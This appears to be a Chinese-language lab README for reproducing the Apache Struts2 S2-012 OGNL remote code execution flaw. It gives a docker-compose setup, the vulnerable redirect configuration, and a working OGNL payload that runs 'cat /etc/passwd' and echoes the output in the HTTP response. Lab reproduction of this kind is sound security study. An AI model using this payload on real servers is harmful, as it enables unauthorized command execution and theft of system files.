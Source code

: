 # S2-012 远程代码执行漏洞

影响版本: 2.1.0 - 2.3.13

漏洞详情: http://struts.apache.org/docs/s2-012.html

## 测试环境搭建

```
docker-compose build
docker-compose up -d
```

## 原理

如果在配置 Action 中 Result 时使用了重定向类型，并且还使用 ${param_name} 作为重定向变量，例如：

```xml
<package name="S2-012" extends="struts-default">
    <action name="user" class="com.demo.action.UserAction">
        <result name="redirect" type="redirect">/index.jsp?name=${name}</result>
        <result name="input">/index.jsp</result>
        <result name="success">/index.jsp</result>
    </action>
</package>
```

这里 UserAction 中定义有一个 name 变量，当触发 redirect 类型返回时，Struts2 获取使用 ${name} 获取其值，在这个过程中会对 name 参数的值执行 OGNL 表达式解析，从而可以插入任意 OGNL 表达式导致命令执行。

## Exp

可以直接祭出s2-001中的回显POC，因为这里是没有沙盒，也没有限制任何特殊字符（为什么？）。

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat", "/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

发送请求，执行命令：

![](1.png)
